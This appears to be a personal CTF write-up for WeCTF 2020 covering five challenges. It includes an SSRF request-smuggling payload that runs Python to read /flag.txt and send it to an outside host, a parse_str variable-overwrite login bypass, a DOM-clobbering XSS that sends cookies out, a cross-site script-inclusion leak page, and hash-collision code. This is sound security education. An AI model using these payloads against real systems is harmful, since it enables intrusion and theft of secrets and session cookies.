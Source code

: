 # WeCTF 2020
I played with IrisSec, joined a few hours in. Fun intro/intermediate web stuff, around the right level for me, still have lots of holes to fill in my knowledge.

## KVCloud (13 solves)

> Shou hates to use Redis by TCPing it. He instead built a HTTP wrapper for saving his key-value pairs.
> Flag is at /flag.txt.
> Hint: How to keep-alive a connection?
> Note 1: Remote is not using 127.0.0.1 as Redis host.
> Note 2: Try different host if your payload is not working remotely.
> Handout: https://github.com/wectf/2020p/blob/master/kvcloud/handout.zip

The /get route lets us send arbitrary TCP data to a URL, the only restriction is it gets prepended with "GET ". Our goal is to SSRF a post request to the "/debug" endpoint which lets us run arbitrary python, and we can do that with the property that Keep-Alive lets us package requests. The command I used is just the file upload off GTFOBins.

```
/test HTTP/1.1
Host: 127.0.0.1
Connection: Keep-Alive
Content-Length: 1000

POST /debug HTTP/1.1
Host: 127.0.0.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 406

cmd=import%20sys%3B%20from%20os%20import%20environ%20as%20e%0Aif%20sys%2Eversion%5Finfo%2Emajor%20%3D%3D%203%3A%20import%20urllib%2Erequest%20as%20r%2C%20urllib%2Eparse%20as%20u%0Aelse%3A%20import%20urllib%20as%20u%2C%20urllib2%20as%20r%0Ar%2Eurlopen%28%27http%3A%2F%2Fmyhost%27%2C%20bytes%28u%2Eurlencode%28%7B%22d%22%3Aopen%28%27%2Fflag%2Etxt%27%29%2Eread%28%29%7D%29%2Eencode%28%29%29%29
```

Flag: `we{144f8595-9e5c-4ac7-a526-6774f7162b78@mayb3-1cmp-based-33rf-nex7-year?}`

## dont-bf-me (36 solves)
> Shou uses Recaptcha for his site to make it "safer".
> Hint: The password is so long that makes any bruteforcing method impotent.
> Handout: https://github.com/wectf/2020p/blob/master/dont-bf-me/handout.zip

The PHP code uses `parse_str` to deserialize the query string. This function lets us overwrite global variables; we overwrite the recaptcha check with our server and both password and CORRECT_PASSWORD with the same thing.

`http://bfm.ny.ctf.so/login.php?password=&CORRECT_PASSWORD=&RECAPTCHA_URL=https://myhost/test.json?&g-recaptcha-response=a`

test.json: `{"success":true, "score":1.0}`

Flag: `we{f3243131-45e1-4d82-9dfb-586760275ac6@0bvious1y_n0t_a_brutef0rc3_cha11}`

## Hashtable (15 solves)
> Universal hashing could prevent hackers from DoSing the hash table by creating a lot of collisions. Shou doubt that. Prove him correct by DoSing this hash table implemented with universal hashing.
> Note: having 10 collisions at the same slot would give you the flag
> Handout: https://github.com/wectf/2020p/blob/master/hashtable/handout.zip

The page feeds us the random seed so we can recover P1 and P2 as so:
```go
package main

import (
    "math/big"
    "math/rand"
    "os"
    "strconv"
    "fmt"
)


func main () {
    val, err := strconv.Atoi(os.Args[1])
    if err != nil {
        fmt.Printf("Argument is not a number!")
    }
    rand.Seed(int64(val))
    p1 := big.NewInt(int64(rand.Intn(1 << 32)))
    p2 := big.NewInt(int64(rand.Intn(1 << 32)))
    fmt.Printf("p1 %d p2 %d", p1, p2)
}
```

And then we just brute force some collisions, the key space is tiny:
```python
from collections import defaultdict
d = defaultdict(list)

P1 = 2981479847
P2 = 647990579
T = 10000

for i in range(4096,1<<20):
    t = pow(i, P1, P2) % T
    d[t].append(i)
    if len(d[t]) == 10: break

print(d[t])
```

Flag: `we{6890260a-0fed-48a3-9865-91daa1d0df52@l00ks_l1ke_u_got_an_A+_1n_crypt01o1}`

## Notebin (8 solves)
> Here is where Shou keeps his pathetic diaries and a shinny flag.
(No handout)

DOMpurify doesn't block all HTML, just what seems to be XSS. If we use DOM clobbering in the title to enable the debug flag, the content data is passed directly in.

Here was my post data for the note (pre urlencoding components):
`title=<a id="_debug"></a><a id="_debug" name="key" href="sha1:f03e8a370aa8dc80f63a6d67401a692ae72fa530"></a>&content=<img src="a" onerror="fetch("blahblahblah" + btoa(document.cookie))"></img>`

My payload didn't work on the server despite working on latest Chrome so I got the flag from the admin.

Flag: `we{16426109-0fbf-4ec0-a309-843faff84f8a@3asy_cl0bber}`

## Wallet (4 solves)
> Shou has a habit of saving secret (i.e. flag) in the blockchain. Here is where he stores his bitcoin addresses.
> Note: wrap what you find on blockchain with we{.....}
> Hint 1: You should leak the bitcoin address in Shou's wallet first.
> Hint 2: Shou is using Firefox. Firefox does not have CORB.
> Handout: https://github.com/wectf/2020p/blob/master/wallet/handout.zip

We can POST to the server from our pages without trouble. With this and the lack of filtering in the Raw theme along with theme setting, we can make it return valid JS and include `/` as a script which sets some variables. We set the style to `Raw;d="` to make it so what appears after becomes part of a string variable `d`. Then we add an address with name `"`, closing the quotes.

After getting the admin's wallet address, we look at his transactions and find one with a suspicious OP_RETURN. Decoding the data in it gives us our flag.

```html
<!DOCTYPE html>
<html>
<head>
    <title>WeCTF Wallet</title>
</head>
<body>
Hi.
</body>
<script type="text/javascript">
    fetch("http://wallet.ny.ctf.so/style", {method: 'POST', mode: 'no-cors', body: 'style=Raw;d="', credentials: 'include', headers: {'Content-Type': 'application/x-www-form-urlencoded'}}).then(d => d.text()).then(d => console.log(d));
    fetch("http://wallet.ny.ctf.so/address", {method: 'POST', mode: 'no-cors', body: 'address="', credentials: 'include', headers: {'Content-Type': 'application/x-www-form-urlencoded'}}).then(d => d.text()).then(d => console.log(d));
    var a = document.createElement('script');
    window.style = "";
    window.Raw = "test";
    a.src = "http://wallet.ny.ctf.so/";
    document.head.appendChild(a);
    window.setTimeout(() => {
        fetch("http://myhost/?d=" + d);
    }, 1000);

</script>
</html>
```

Flag: `we{8e90d51b-4418-4659-9fb3-cc78a548fe25@0ps}`